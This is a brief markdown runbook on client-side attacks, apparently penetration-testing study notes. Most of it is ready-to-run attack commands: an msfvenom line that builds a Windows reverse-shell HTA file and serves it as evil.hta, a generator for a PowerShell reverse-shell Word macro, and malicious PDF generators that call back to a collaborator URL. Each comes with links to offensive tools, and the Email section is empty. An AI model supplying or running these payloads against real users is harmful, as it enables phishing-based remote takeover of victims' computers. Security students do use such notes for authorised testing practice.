 # Client-Side Attacks

## Introduction

This runbook is to help with Client-Side Attacks.  Client-Side Attacks are those attacks that are sent to clients, whe the client has to intiate the connection.  An example of this would be a phishing email.  The listener and backend have to be set up prior, and then client has to click the link in the email.

## Table of Content

- [Client-Side Attacks](#client-side-attacks)
  - [Introduction](#introduction)
  - [Table of Content](#table-of-content)
  - [HTA Attack in Action](#hta-attack-in-action)
  - [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
  - [Malicious PDF](#malicious-pdf)
  - [Email](#email)

## HTA Attack in Action

- Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

- Creating a malicious .hta with msfvenom

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack

- Generate a malicious macro for reverse shell in powershell using base64 for .doc

```python
python evil_macro.py -l <ip> -p <port> -o macro.txt
```

https://github.com/rodolfomarianocy/Evil-Macro/

## Malicious PDF

- Malicious PDF Generator

```python
python3 malicious-pdf.py burp-collaborator-url
```

https://github.com/jonaslejon/malicious-pdf

- evilpdf  
https://github.com/superzerosec/evilpdf

## Email 
